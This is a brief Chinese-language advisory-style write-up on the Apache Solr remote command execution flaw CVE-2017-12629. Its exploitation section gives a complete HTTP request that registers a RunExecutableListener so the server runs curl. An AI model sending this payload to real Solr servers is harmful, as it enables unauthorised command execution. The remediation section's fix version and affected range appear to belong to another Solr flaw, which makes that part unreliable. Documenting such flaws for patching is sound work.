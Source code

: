 ### 一 漏洞描述
Apache Solr Rce(CVE-2017-12629)

Apache Solr 是Apache开发的一个开源的基于Lucene的全文搜索服务器。  
其集合的配置方法（config路径）可以增加和修改监听器，增加时能通过RunExecutableListener执行任意系统命令。


### 二 漏洞利用
增加监听器触发命令执行
```POST /solr/newcollection/config HTTP/1.1
Host: localhost:8983
Connection: close
Content-Type: application/json  
Content-Length: 198

{
  "add-listener" : {
    "event":"postCommit",
    "name":"newlistener",
    "class":"solr.RunExecutableListener",
    "exe":"curl",
    "dir":"/usr/bin/",
    "args":["http://127.0.0.1:8080"]
  }
}
```

### 三 漏洞修复
升级solr到8.4.0

受影响的版本： 4.x至8.3.1

下载地址：https://lucene.apache.org/solr/downloads.html

> 参考：
> https://www.freebuf.com/sectool/159970.html
> https://cloud.tencent.com/developer/article/1144777
